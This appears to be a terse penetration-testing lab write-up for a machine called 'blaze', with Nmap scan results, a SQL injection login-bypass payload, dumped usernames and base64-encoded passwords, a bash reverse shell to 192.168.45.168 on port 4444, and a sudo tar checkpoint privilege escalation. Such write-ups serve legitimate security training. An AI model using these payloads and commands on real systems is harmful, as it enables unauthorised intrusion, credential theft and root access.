



_____

> [!info]
> IP=192.168.247.10

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|
|9090/tcp|open|zeus-admin|


```python
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  ssl/zeus-admin?
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-02-04T17:41:51
|_Not valid after:  2124-01-11T17:41:51
|_ssl-date: TLS randomness does not represent time
```

## 80 - http
Fuzzing --> /login.php

`Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' AND password like '%test%'' at line 1`

Payload --> admin' #

|  Username |Password   |
|---|---|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|


## 8080 - zeus-admin



server:blaze

/ping -- service cockpit




```bash
echo "Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=" | base64 -d
canttouchhhthiss@455152
```



```bash
/bin/bash -i >& /dev/tcp/192.168.45.168/4444 0>&1
```

# PrivEsc

```txt
User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

```bash
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
